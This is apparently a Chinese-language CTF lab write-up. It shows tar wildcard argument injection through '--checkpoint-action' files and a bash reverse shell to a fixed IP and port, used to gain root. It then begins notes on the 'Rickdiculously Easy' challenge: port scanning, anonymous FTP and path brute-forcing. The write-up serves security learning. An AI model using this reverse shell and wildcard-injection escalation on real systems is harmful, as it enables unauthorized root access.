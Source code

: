 ```bash
若任务包含 `tar *` 等命令，可利用通配符参数注入：
touch --checkpoint=1 --checkpoint-action=exec=/bin/sh
通配符滥用
```

```
vi shell.sh

#!/bin/bash
/bin/bash -c "bash -i >& /dev/tcp/10.17.40.203/6666 0>&1 "

touch ./"--checkpoint=1"
touch ./"--checkpoint-action=exec=sh shell.sh"

```

![image.png](https://s2.loli.net/2025/05/03/fNxubJ7cmHSqPvU.png)

成功获得root

![image.png](https://s2.loli.net/2025/05/03/nwFUQa41NdErfX5.png)


# Rickdiculously Easy
[[Rickdiculously Easy]]
ctf题目
## nmap端口扫描加文件路径爆破

发现有匿名登录的21端口

![](https://s2.loli.net/2025/05/03/4OKNc8YzdEPwXCA.png)

下载了一个flag.txt但无提示

![image.png](https://s2.loli.net/2025/05/03/gheKq5T1uZFWjLY.png)

pub文件下载不了

 换个位置 文件路径看看

![image.png](https://s2.loli.net/2025/05/03/Mg1AHZRtX4PUbp5.png)


进去看看有啥信息吗

![image.png](https://s2.loli.net/2025/05/03/omdSkWRBvnfprHD.png)


![image.png](https://s2.loli.net/2025/05/03/g7RHkpxDqEBynjm.png)

![image.png](https://s2.loli.net/2025/05/03/F9keSTAz8ctVoPy.png)
